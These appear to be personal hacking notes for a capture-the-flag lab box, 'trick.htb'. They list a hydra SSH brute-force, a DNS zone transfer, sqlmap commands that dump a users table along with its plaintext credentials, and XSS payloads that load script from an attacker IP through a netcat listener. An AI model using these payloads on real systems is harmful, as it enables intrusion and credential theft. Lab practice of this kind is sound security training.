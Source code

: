 # users
mysql

# trying to get pwd
hydra -t 16 -l mysql -P ~/wordlists/rockyou.txt trick.htb ssh 

.. doubt it is the way

# to get a different subdomain
dig @trick.htb axfr trick.htb

preprod-payroll.trick.htb

# sqli
~/sqlmap-dev/sqlmap.py -r login-request --dbs
~/sqlmap-dev/sqlmap.py -r login-request --dbs -D payroll_db --tables
~/sqlmap-dev/sqlmap.py -r login-request --dump -D payroll_db -T users

```
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type | address | contact | password              | username   |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
```


# shell
attack: while :; do printf "j$ "; read c; echo $c | nc -lp 4444 >/dev/null; done
<svg/onload=setInterval(function(){d=document;z=d.createElement("script");z.src="//10.10.14.95:4444";d.body.appendChild(z)},0)>

<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.95:20000"},999)>

# cant do LFI or get shell via the XSS ...

# apparently can LFI via SQLmap?
~/sqlmap-dev/sqlmap.py -r login-request --privileges

